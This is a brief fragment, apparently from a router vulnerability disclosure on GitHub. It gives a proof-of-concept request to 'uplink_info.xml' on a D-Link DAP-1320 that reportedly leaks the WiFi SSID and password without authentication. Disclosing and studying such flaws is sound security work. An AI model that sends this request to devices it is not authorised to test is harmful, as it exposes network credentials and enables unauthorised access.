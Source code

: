 #### PoC
http://targetip/uplink_info.xml
you can get the WIFI SSID and password
！[poc](https://github.com/dahua966/Routers-vuls/blob/master/DAP-1320/info_leak.png)